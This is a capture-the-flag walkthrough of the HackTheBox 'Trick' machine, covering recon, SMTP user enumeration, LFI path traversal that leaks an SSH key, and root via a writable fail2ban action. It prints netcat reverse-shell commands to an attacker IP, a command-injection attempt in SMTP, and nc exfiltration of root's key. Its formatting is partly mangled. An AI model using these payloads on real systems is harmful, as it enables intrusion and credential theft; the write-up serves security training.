



Trick
Trick appears to be a website that is under construction. At first glance, there is no functionality.

Recon
I set RADDR to the target IP address, then began with my typical "init" scan:
sudo nmap -sV -sC -O -n -Pn -oA nmap/init-scan $RADDRHowever, this yielded no results at all.
I then proceeded to a ping scan instead:
xxxxxxxxxx└─$ sudo nmap -Pn -oA nmap/port-scan $RADDRStarting Nmap 7.92 ( https://nmap.org ) at 2022-07-31 18:32 EDTNmap scan report for trick.htb (10.10.11.166)Host is up (0.035s latency).Not shown: 996 closed tcp ports (reset)PORT STATE SERVICE22/tcp open ssh25/tcp open smtp53/tcp open domain80/tcp open http
22 (ssh), 53 (dns), and 80 (http) are expected. SMTP is less common, and may indicate some extra mail-sending functionality.
http
Seeing port 80, I added the address to trick.htb in my /etc/hosts file and proceeded with subdomain fuzzing using ffuf:
xxxxxxxxxxWLIST=/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt ffuf -w $WLIST:FUZZ -u http://FUZZ.trick.htb/No result. I'll try vhost fuzzing instead:
xxxxxxxxxxffuf -w $WLIST:FUZZ -u http://trick.htb:80/ -H 'Host: FUZZ.trick.htb'
Only ran that for a few seconds to note that all responses are of size 5480. Filter these out:
xxxxxxxxxxffuf -w $WLIST:FUZZ -u http://trick.htb:80/ -H 'Host: FUZZ.trick.htb' -fs 5480
Still nothing.
Ok, I think it's safe to say we are dealing with a pretty simple http server that has outgoing email.
Next, let's try signing up for their notifications:

It appears to be a Form service that is not connected to anything.
Next, I performed directory enumeration using feroxbuster. This yielded the following directories:
- /js
- /css
- /assets
- /assets/img
I checked the http server info using a whatweb query:
xxxxxxxxxxwhatweb http://trick.htb
This confirmed that the site uses bootstrap, and gave a specific version of nginx: 1.14.2. This appears to be a legacy version of nginx, succeeded by version 1.16 (changelog here) and several versions by now. The only notable security change that I saw since 1.14.2 was this:
xxxxxxxxxxSecurity: processing of a specially crafted mp4 file with thengx_http_mp4_module might result in worker process memory disclosure(CVE-2018-16845).
DNS
I did the steps mentioned at the bottom of the DNS hacktricks page
dig returned a possibly interesting result. Why do they have a CNAME record for preprod-payroll.trick.htb? :

I'm not sure what its purpose is. I decided to revisit this later after investigating SMTP.
SMTP
I ran the smtp enumeration nmap script
xxxxxxxxxxnmap -p25 -oA nmap/smtp --script smtp-commands $RADDR
Following the advice of the SMTP hacktricks page, I tried logging into the smtp server using telnet.
xxxxxxxxxxtelnet $RADDR 25I did not know what all the smtp status codes were, so I checked the wiki. There was an example shown at the bottom of that wiki article showing how to interact with the server using these codes. Noting that the nmap enumeration showed ENHANCEDSTATUSCODES I referred to the bottom example for sending a message. I also tried checking some users (root, admin, mailto).
💡 If this worked, then perhaps the usernames could be enumerated using this VRFY command..?
xxxxxxxxxx└─$ telnet $RADDR 25Trying 10.10.11.166...Connected to 10.10.11.166.Escape character is '^]'.220220 debian.localdomain ESMTP Postfix (Debian/GNU)502 5.5.2 Error: command not recognizedVRFY root252 2.0.0 rootVRFY admin550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient tableVRFY mailto550 5.1.1 <mailto>: Recipient address rejected: User unknown in local recipient tableMAIL FROM:<gerf>250 2.1.0 OkRCPT TO:<fake@fake.com>454 4.7.1 <fake@fake.com>: Relay access deniedDATA554 5.5.1 Error: no valid recipientsRCPT TO:<root>250 2.1.5 OkDATA354 End data with <CR><LF>.<CR><LF>Well hello thereThis is a test email message.250 2.0.0 Ok: queued as A182E4099CQUIT221 2.0.0 ByeConnection closed by foreign host.
That's somewhat interesting. It seems like emails can be sent anonymously as long as they are internal. If I can enumerate the users on the box, maybe I can leak some kind of info by sending an email from root to that user?
The following interaction with the smtp server shows that we could also use the RCPT TO:root exists but tbd_username does not:
xxxxxxxxxx└─$ telnet $RADDR 25 1 ⨯Trying 10.10.11.166...Connected to 10.10.11.166.Escape character is '^]'.220 debian.localdomain ESMTP Postfix (Debian/GNU)MAIL FROM:<root>250 2.1.0 OkRCPT TO:<tbd_username>550 5.1.1 <tbd_username>: Recipient address rejected: User unknown in local recipient tableRCPT TO:<root>250 2.1.5 OkDATA354 End data with <CR><LF>.<CR><LF>Hi root, I'm root. How are you today?.250 2.0.0 Ok: queued as B7DD84099CQUIT221 2.0.0 ByeConnection closed by foreign host.
To investigate this idea, I checked through metasploit to see if somebody has already tried this method. As it turns out, it already has a module! auxiliary/scanner/smtp/smtp_enum 🎉
xxxxxxxxxxuse auxiliary/scanner/smtp/smtp_enumshow info <------- By default it is using a very short list of probable unix usernames.set RHOSTS 10.10.11.166run
The scan eventually finished, and showed the following users:
xxxxxxxxxxUsers found: , _apt, avahi, backup, bin, colord, daemon, dnsmasq, games, geoclue, gnats, hplip, irc, list, lp, mail, man, messagebus, mysql, news, nobody, postfix, postmaster, proxy, pulse, rtkit, saned, speech-dispatcher, sshd, sync, sys, systemd-coredump, systemd-network, systemd-resolve, systemd-timesync, tss, usbmux, uucp, www-data
This is kind of a long list, and I'm bad at comparing lists visually, so I wrote a script to compare this list of users to my own /etc/passwd file (to filter out the known/expected users on the box). This is compare_users_list.sh:
x
LIST="_apt, avahi, backup, bin, colord, daemon, dnsmasq, games, geoclue, gnats, hplip, irc, list, lp, mail, man, messagebus, mysql, news, nobody, postfix, postmaster, proxy, pulse, rtkit, saned, speech-dispatcher, sshd, sync, sys, systemd-coredump, systemd-network, systemd-resolve, systemd-timesync, tss, usbmux, uucp, www-data"
IFS=", "
for usr in $LIST;do found=$(grep $usr /etc/passwd) if [ "$found" = "" ]; then echo $usr fidoneAfter running this script, the users that weren't present in my own /etc/passwd were:
- dnsmasq
- hplip
- postfix
- postmaster
dnsmasq, postfix, and postmaster make sense. But what's this hplip?
Googling this username showed that it is the user for "HP's Linux Imaging and Printing software (HPLIP)". Ok, it's a driver. Drivers aren't always very secure - maybe this one isn't?
Checking searchsploit revealed something juicy. Maybe it'll work:

I looked up the CVE. This definitely might be applicable for this box:
hpssd in Hewlett-Packard Linux Imaging and Printing Project (hplip) 1.x and 2.x before 2.7.10 allows context-dependent attackers to execute arbitrary commands via shell metacharacters in a from address, which is not properly handled when invoking sendmail.
Naturally, HPLIP is not exposed to the internet right now, so running this exploit through metasploit did not work. However, from the CVE description it sounds like maybe this could work by interacting with smtp over telnet instead.
Here is an excerpt from the exploit code linux/remote/16837.rb:
xxxxxxxxxx connect
#cmd = "nohup " + payload.encoded cmd = payload.encoded
username = 'root' toaddr = 'nosuchuser'
# first setalerts print_status("Sending 'setalerts' request with encoded command line...") msg = "username=#{username}\n" + "email-alerts=1\n" + #"email-from-address=`#{cmd}`\n" + "email-from-address=x;#{cmd};\n" + "email-to-addresses=#{toaddr}\n" + "msg=setalerts\n" sock.put(msg)
# next, the test email command print_status("Sending 'testemail' request to trigger execution...") msg = "msg=testemail\n" sock.put(msg)Ok, so maybe I can telnet to the smtp server, and try sending an email with a malformed FROM address. Specifically, I'll send it from x;nc 10.10.14.4 4444; (after setting up a netcat listener on my attacker machine). If we get a response, it worked.
Hmm, looks like it won't be quite that easy:
xxxxxxxxxxMAIL FROM:hplip;nc 10.10.14.4 4444;501 5.1.7 Bad sender address syntax
The original exploit linux/remote/16837.rb looks like it's encoding the payload. I used od to encode mine:
xxxxxxxxxxecho -n "nc 10.10.14.4 4444" | od -A n -t x1 | sed 's/ /\\x/g'These were the responses to my various attempts:
xxxxxxxxxxConnected to 10.10.11.166.Escape character is '^]'.220 debian.localdomain ESMTP Postfix (Debian/GNU)500 5.5.2 Error: bad syntaxMAIL FROM:root;nc 10.10.14.4 4444;\n501 5.1.7 Bad sender address syntaxMAIL FROM:root;nc 10.10.14.4 4444;501 5.1.7 Bad sender address syntaxMAIL FROM:root;\x6e\x63\x20\x31\x30\x2e\x31\x30\x2e\x31\x34\x2e\x34\x20\x34\x34\x34\x34501 5.1.7 Bad sender address syntaxMAIL FROM:root;\x6e\x63\x20\x31\x30\x2e\x31\x30\x2e\x31\x34\x2e\x34\x20\x34\x34;\n501 5.1.7 Bad sender address syntaxMAIL FROM:root;id;501 5.1.7 Bad sender address syntaxMAIL FROM:root;id;\n501 5.1.7 Bad sender address syntaxMAIL FROM:<root;id;>501 5.1.7 Bad sender address syntaxMAIL FROM:<root;id;\n>501 5.1.7 Bad sender address syntaxMAIL FROM:<root;;>250 2.1.0 OkQUIT221 2.0.0 ByeConnection closed by foreign host.
None of these variations worked. I might end up revisiting this idea later, but at this point I decided to pursue other leads.
Revisiting preprod-payroll.trick.htb
I added preprod-payroll.trick.htb to my /etc/hosts file (as if it had turned up in the original subdomain fuzzing) and tried directory enumeration against it, once again using feroxbuster:

Well THAT looks very promising 😄
/login page is shown below:

I tried common SQLi auth bypass strings in the username field, no result. Also tried common SQLi polyglots in the username field, also no result. Next I tried sqlmap
SQLMap did not produces any significant results. When attempting to check SQLi using POSTs on the login form, I got false positives from many tests. However, these were just the server replying with an error code. Oh well, was worth a shot.
Looking for other easy ways to bypass the login, I perused the login page's source code.
(Also, I opened up Burp and set my scope to preprod-payroll.trick.htb. I'm can be somewhat haphazard in my testing, so Burp helps me organize all the requests I fire off)
xxxxxxxxxxcurl --proxy="127.0.0.1:8080" preprod-payroll.trick.htbcurl --proxy="127.0.0.1:8080" preprod-payroll.trick.htb/login.php
As it turns out, requests to preprod-payroll.trick.htb provide index.php before redirecting to login.php. By default, Burp then generated a site map of the subdomain. By exploring this auto-generated site map, we can see what the application looks like:

Burp also logged several links within index.php:

By sending these pages to Burp Repeater, we can even get their context. Shown below is page=employee:

Viewing the employee page's source revealed some interesting functionality: perhaps we can use it to generate a new user!
xxxxxxxxxx<script type="text/javascript"> $(document).ready(function(){
$('.edit_employee').click(function(){ var $id=$(this).attr('data-id'); uni_modal("Edit Employee","manage_employee.php?id="+$id) }); $('.view_employee').click(function(){ var $id=$(this).attr('data-id'); uni_modal("Employee Details","view_employee.php?id="+$id,"mid-large") }); $('#new_emp_btn').click(function(){ uni_modal("New Employee","manage_employee.php") }) $('.remove_employee').click(function(){ _conf("Are you sure to delete this employee?","remove_employee",[$(this).attr('data-id')]) }) }); function remove_employee(id){ start_load() $.ajax({ url:'ajax.php?action=delete_employee', method:"POST", data:{id:id}, error:err=>console.log(err), success:function(resp){ if(resp == 1){ alert_toast("Employee's data successfully deleted","success"); setTimeout(function(){ location.reload();
},1000) } } }) } </script>Changing back to my brower, I tried requesting manage_employee.php (connected to #new_emp_btn). It corresponds to the page we just saw the source code for. The form seemed straightforward, but the Position field had all options disabled. Thankfully, this was just a matter of changing the DOM from within the browser, removing the disabled property on each

Oddly enough, the form is also missing its submit() function. This is what it should be:
xxxxxxxxxx$('#employee_frm').submit(function(e){ e.preventDefault() start_load(); $.ajax({ url:'ajax.php?action=save_employee', method:"POST", data:$(this).serialize(), error:err=>console.log(), success:function(resp){ if(resp == 1){ alert_toast("Employee's data successfully saved","success"); setTimeout(function(){ location.reload();
},1000) } } }) })I manually created a POST request in Burp Repeater for this and submitted it. This is the result:

Ok. Not the result I was looking for, but at least now we know more about the directory structure.
💡 But it does remind me of something important... you can't have a company without more than just payroll. I realized that I forgot to refine my VHost fuzzing after finding the suspicious preprod-payroll.trick.htb from DNS enumeration.
Taking another crack at VHost fuzzing using the known pattern of preprod-XXX.trick.htb:
xxxxxxxxxxWLIST=/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt ffuf -w $WLIST:FUZZ -u http://trick.htb -H 'Host: preprod-FUZZ.trick.htb' -t 100 -fs 5480
🤦♂ Of course! why didn't I think of checking that earlier.
I try not to beat myself up over doing things in the wrong order, but it can sure be frustrating to realize I neglected something staring right at me!
The thing to remember here is to take good notes, and when you get stuck read them back to yourself.
Often on an 'Easy' HTB box, if you get stuck after finding something that looks like a good result, it means you may have missed a hint in an earlier step. Critical thinking about your own process can be very valuable.
I added preprod-marketing.trick.htb to my /etc/hosts file and to my Burp scope.
preprod-marketing.trick.htb

At first glance, the site seems pretty much static. There is a contact page. This is the result of my directory enumeration:
xxxxxxxxxxferoxbuster --url http://preprod-marketing.trick.htb -x php
After navigating around the site for a bit, I noticed a big hint: the URI of each page, ex.
xxxxxxxxxxhttp://preprod-marketing.trick.htb/index.php?page=home.html
This looked like a candidate for directory traversal. Already knowing (from the errors showing /var/www/payroll/admin_class.php) that this was probably being read from a directory like /var/www/marketing/index.php, I tried using directory traversal tricks going (at least) three directories up:
- http://preprod-marketing.trick.htb/index.php?page=../../../../../../etc/passwd
- http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././..././etc/passwd
And that did it! The second attempt was enough to leak /etc/passwd:
xxxxxxxxxxroot:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:110::/nonexistent:/usr/sbin/nologin tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin saned:x:112:121::/var/lib/saned:/usr/sbin/nologin colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false sshd:x:118:65534::/run/sshd:/usr/sbin/nologin postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin bind:x:120:128::/var/cache/bind:/usr/sbin/nologin michael:x:1001:1001::/home/michael:/bin/bash
Well hello there, michael. Are you the target?
As it turns out, michael is definitely the target. Or at least, they have the flag:
xxxxxxxxxxhttp://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././..././home/michael/user.txt
Wonderful!
Foothold
If I can access michael's home directory (and ssh is open) there's a good chance I can also access michael's ssh key. Taking a guess at the typical location of the ssh key worked perfectly:
xxxxxxxxxxhttp://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././home/michael/.ssh/id_rsa
Hooray 🎉 That worked! Only the formatting of the ssh key is not idea. I'll use curl to dump it into a file directly, instead:
xxxxxxxxxxcurl http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././home/michael/.ssh/id_rsa -o id_rsaNow, set proper file permissions on the key (ssh will complain / remind you if you don't), and log in via ssh:
xxxxxxxxxxchmod 600 id_rsassh michael@trick.htb -i id_rsa
Privilege Escalation
To make PE easier, I decided to serve my "small toolbox" over to the target machine. To do this, I hosted a python http.server with the following tools
xxxxxxxxxxwww├── chisel├── index.html├── LinEnum.sh├── linpeas.sh└── pspy
xxxxxxxxxxsudo ufw allow from 10.10.11.166 to any port 8000 proto tcpcd wwwpython3 -m http.server 8000
Noting down my IP address with ifconfig tun0, I downloaded my toolbox from my http server as michael:
xxxxxxxxxxmkdir /tmp/toolscurl -O 10.10.14.5:8000/pspycurl -O 10.10.14.5:8000/LinEnum.shcurl -O 10.10.14.5:8000/linpeas.shchmod u+x ./*
I then took a look at michael's $PATH and cross referenced against locations they can write to:
xxxxxxxxxxidecho $PATHfind / -user michael 2>/dev/null | grep -v procfind / -group security 2>/dev/null | grep -v proc
linpeas
Next, I ran linpeas.sh to see if there were any easy PE vectors. Some notes on what linpeas showed:
sudo version 1.8.27
Possibly vulnerable to a sudo vulnerability mentioned here in Hacktricks
- Checked it; nope not vulnerable
Possibly vulnerable to another sudo vulnerability described here.
- Downloaded a git repo with PoC code to my attacker box, compiled the code, transferred it using
http.server(this time usingwget -r)from my attacker machine to the target machine - Ran the code; nope not vulnerable
- Downloaded a git repo with PoC code to my attacker box, compiled the code, transferred it using
michael has
/var/mail. Maybe it's time to reattempt the smtp exploitroot is running
postfix. Maybe another reason to check out the smtp exploitsystem is using
anacroninstead ofcronlistening on
MySQLon tcp port 3306 andIPP(Internet Printing Protocol) on tcp port 631michael can
sudo /etc/init.d/fail2ban restart/usr/bin/gettext.shis in the PATHMight be a good idea to check
/var/www/payroll/database/payroll.sqlfor credential reuseAlso check out
/var/www/payroll/admin_class.phpand/var/www/payroll/login.php
pspy
The following shows the output of pspy after running for a few minutes:

Perhaps there is a way to use fail2ban to escalate? pspy showed that /root/fail2ban is being backed-up to /etc, so I can at least take a look at what's inside. Also since michael is in the security group, it's worth checking out /etc/fail2ban/action.d
Fail2Ban appears to have had a pretty severe CVE leading to code execution: CVE-2021-32749. However, this git repo shows that mail is used, and mail is not present on this box. Neither is the leading alternative sendmail... neither are the less-common alternatives mutt nor ssmtp.
💡But wait, maybe that telnet trick that I used earlier would be enough to exploit CVE-2021-32749 ?
First, I set up a nc listener and checked if a netcat reverse shell would even work on this box (sometimes they don't have the -e flag):
xxxxxxxxxxon attacker:nc -lvnp 4444on target:nc 10.10.14.5 4444 -e /bin/sh

Yep, that's successful. Now let's see if we can get root using the same trick? We already know root is running postfix, so perhaps we can use this CVE to get a root reverse shell.
xxxxxxxxxx┌──(kali㉿kali)-[~]└─$ telnet $RADDR 25 1 ⨯Trying 10.10.11.166...Connected to 10.10.11.166.Escape character is '^]'.220 debian.localdomain ESMTP Postfix (Debian/GNU)MAIL FROM: root250 2.1.0 OkRCPT TO: michael250 2.1.5 OkDATA354 End data with <CR><LF>.<CR><LF>Michael, I'm sending you an email\n~! nc 10.10.14.5 4444 -e /bin/sh.250 2.0.0 Ok: queued as B36C741221QUIT221 2.0.0 ByeConnection closed by foreign host.
To check if the email was delivered, I used mailq. Indeed it was delivered, but no reverse shell appeared...
Ok, that's too bad, but I still think fail2ban is a solid lead. We already saw that the /etc/fail2ban/action.d directory is writable by michael. So maybe it is possible to create a new fail2ban action that will acquire us the root shell.
At this point, I had to go research how fail2ban is used and configured. For this, I found the following resources useful:
It looks like /etc/fail2ban/jail.conf would have to be modified to be able to use a custom action. I think modifying an existing action is probably the best option. However, it looks like there aren't any jails enabled:
xxxxxxxxxxgrep -B 20 -A 10 "enabled = true" jail.conf
But then again, within jail.d there is a single entry enabling an sshd jail. Maybe it is as simple as making a new custom jail sshd.conf containing my reverse shell?
This is the entry in jail.conf for sshd:
xxxxxxxxxx## SSH servers#[sshd]# To use more aggressive sshd modes set filter parameter "mode" in jail.local:# normal (default), ddos, extra or aggressive (combines all).# See "tests/files/logs/sshd" or "filter.d/sshd.conf" for usage example and details.#mode = normalport = sshlogpath = %(sshd_log)sbackend = %(sshd_backend)sbantime = 10s
But further down is where it references what the default action to be taken is:
xxxxxxxxxx[DEFAULT]## MISCELLANEOUS OPTIONS## "ignorself" specifies whether the local resp. own IP addresses should be ignored# (default is true). Fail2ban will not ban a host which matches such addresses.#ignorself = true# "ignoreip" can be a list of IP addresses, CIDR masks or DNS hosts. Fail2ban# will not ban a host which matches an address in this list. Several addresses# can be defined using space (and/or comma) separator.#ignoreip = 127.0.0.1/8 ::1# External command that will take an tagged arguments to ignore, e.g. <ip>,# and return true if the IP is to be ignored. False otherwise.## ignorecommand = /path/to/command <ip>ignorecommand =# "bantime" is the number of seconds that a host is banned.bantime = 10s# A host is banned if it has generated "maxretry" during the last "findtime"# seconds.findtime = 10s# "maxretry" is the number of failures before a host get banned.maxretry = 5[...some stuff...]## Action shortcuts. To be used to define action parameter# Default banning action (e.g. iptables, iptables-new,# iptables-multiport, shorewall, etc) It is used to define# action_* variables. Can be overridden globally or per# section within jail.local filebanaction = iptables-multiportbanaction_allports = iptables-allports
Ok, so maybe instead of a custom action, I should be using /etc/fail2ban/action.d/iptables-multiport.conf
First, I tried simply putting my reverse shell inside the actionstart and actionstop sections of the .conf file:

Then I restarted the service:
xxxxxxxxxxsudo /etc/init.d/fail2ban restart
but... still no reverse shell 😕
Next, I tried putting my reverse shell inside of the unban action instead. But now I need to find a way to get banned. As seen previously in jail.conf, I will be banned by performing 5 failed authentication attempts in a 10 second span. That's tricky, actually I think that's impossible if trying to log in the naive way. Instead, I tried make at least 5 login attempts at once using a python script:
xxxxxxxxxx!/usr/bin/python3
from subprocess import Popen, PIPE
def attempt_login(): proc = Popen(['ssh', "root@trick.htb"], stdin = PIPE) proc.stdin.write(b'not_a_password') proc.stdin.flush()
for i in range(10): attempt_login()So the plan of attack is as follows, and it has to be very quick:
modify
/etc/fail2ban/action.d/iptables-multiport.confto have a ban action set to my reverse shell, instead of the default ban actionAs michael, perform
/etc/init.d/fail2ban restartto enact the changes to fail2ban configurationFrom my attacker machine, make a bunch of failed login attempts as fast as possible using my python script
🙏 pray for reverse shell
If I get it, quickly grab the flag. I need to be faster than the anacron job that overwrites
/etc/fail2ban.
Performing the above steps worked perfectly! 🎉 root shell acquired!

... for like 5 whole seconds. Then the connection was terminated.
So to get a persistent root shell, I repeated the above steps. This time quickly copying-over root's ssh key into a place michael can access:

Super, let's try transferring that file over and logging in now.
At this point, I realized I forgot to change the file owner! So even though michael can see the key, they cant access it. I performed the attack again, getting a new reverse shell, this time changing the file owner:
xxxxxxxxxxchown michael:michael /home/michael/id_rsa.root
Then I transferred the file using nc:
(on the attacker box)
xxxxxxxxxxnc -lvnp 4444 > root_id_rsa
(as michael)
xxxxxxxxxxnc -nv 10.10.14.5 4444 < id_rsa.root
Then on my attacker machine I changed the key's permissions with chmod 700 root_id_rsa and logged in:

YES! Finally a nice solid ssh connection as root🎉
Thanks for reading
🤝 🤝 🤝 🤝 @4wayhandshake